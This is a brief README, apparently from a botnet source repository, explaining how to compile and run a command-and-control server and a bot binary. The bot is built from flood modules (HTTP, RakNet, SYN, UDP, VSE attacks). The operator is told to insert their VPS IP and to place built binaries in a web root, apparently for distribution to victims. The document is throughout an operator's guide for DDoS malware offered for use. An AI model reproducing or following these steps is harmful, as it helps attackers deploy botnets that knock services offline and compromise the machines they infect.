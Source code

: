 # How to compile cnc?
-------------------------
- Run this:
sh buildcnc.sh
-------------------------

-------------------------
screen ./server <botport> <threads> <cncport>
-------------------------
example: screen ./server 1338 10 1337
-------------------------


# How to compile and run bot
- You should change change ip in bot/main.c to your vps ip and bot port screened already
- Run: sh legacybotbuilder.sh and bins will be put into /var/www/html
- Payload: gcc -o bot checksum.c daemon.c http_attack.c \
    raknet_attack.c socket_attack.c syn_attack.c udp_attack.c \
    vse_attack.c main.c -Wall
